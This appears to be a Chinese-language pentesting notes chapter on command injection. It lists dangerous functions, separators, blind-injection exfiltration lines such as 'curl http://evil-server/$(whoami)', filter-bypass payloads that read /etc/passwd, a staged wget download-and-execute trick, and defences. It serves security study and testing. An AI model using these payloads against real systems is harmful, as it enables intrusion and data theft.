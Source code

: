 ## 3.5.1. 简介

命令注入通常因为指Web应用在服务器上拼接系统命令而造成的漏洞。

该类漏洞通常出现在调用外部程序完成一些功能的情景下。比如一些Web管理界面的配置主机名/IP/掩码/网关、查看系统信息以及关闭重启等功能，或者一些站点提供如ping、nslookup、提供发送邮件、转换图片等功能都可能出现该类漏洞。

## 3.5.2. 常见危险函数

### 3.5.2.1. PHP

- system
- exec
- passthru
- shell_exec
- popen
- proc_open

### 3.5.2.2. Python

- system
- popen
- subprocess.call
- spawn

### 3.5.2.3. Java

- java.lang.Runtime.getRuntime().exec(command)

## 3.5.3. 常见注入方式

- 分号分割
- `||` `&&` `&` 分割
- `|` 管道符
- `\r\n` `%d0%a0` 换行
- 反引号解析
- `$()` 替换

## 3.5.4. 无回显技巧

- bash反弹shell

- DNS带外数据

- - http带外

    `curl http://evil-server/$(whoami)``wget http://evil-server/$(whoami)`

- 无带外时利用 `sleep` 或其他逻辑构造布尔条件

## 3.5.5. 常见绕过方式

### 3.5.5.1. 空格绕过

- `<` 符号 `cat<123`
- `\t` / `%09`
- `${IFS}` 其中{}用来截断，比如cat$IFS2会被认为IFS2是变量名。另外，在后面加个$可以起到截断的作用，一般用$9，因为$9是当前系统shell进程的第九个参数的持有者，它始终为空字符串

### 3.5.5.2. 黑名单绕过

- `a=l;b=s;$a$b`
- base64 `echo "bHM=" | base64 -d`
- `/?in/?s` => `/bin/ls`
- 连接符 `cat /etc/pass'w'd`
- 未定义的初始化变量 `cat$x /etc/passwd`

### 3.5.5.3. 长度限制绕过

```
>wget\
>foo.\
>com
ls -t>a
sh a
```

上面的方法为通过命令行重定向写入命令，接着通过ls按时间排序把命令写入文件，最后执行 直接在Linux终端下执行的话,创建文件需要在重定向符号之前添加命令 这里可以使用一些诸如w,[之类的短命令，(使用ls /usr/bin/?查看) 如果不添加命令，需要Ctrl+D才能结束，这样就等于标准输入流的重定向 而在php中 , 使用 shell_exec 等执行系统命令的函数的时候 , 是不存在标准输入流的，所以可以直接创建文件

## 3.5.6. 常用符号

### 3.5.6.1. 命令分隔符

- `%0a` / `%0d` / `\n` / `\r`
- `;`
- `&` / `&&`

### 3.5.6.2. 通配符

- `*` 0到无穷个任意字符
- `?` 一个任意字符
- `[ ]` 一个在括号内的字符，e.g. `[abcd]`
- `[ - ]` 在编码顺序内的所有字符
- `[^ ]` 一个不在括号内的字符

## 3.5.7. 防御

- 不使用时禁用相应函数

- 尽量不要执行外部的应用程序或命令

- 做输入的格式检查

- - 转义命令中的所有shell元字符

    shell元字符包括 `#&;`,|*?~<>^()[]{}$\`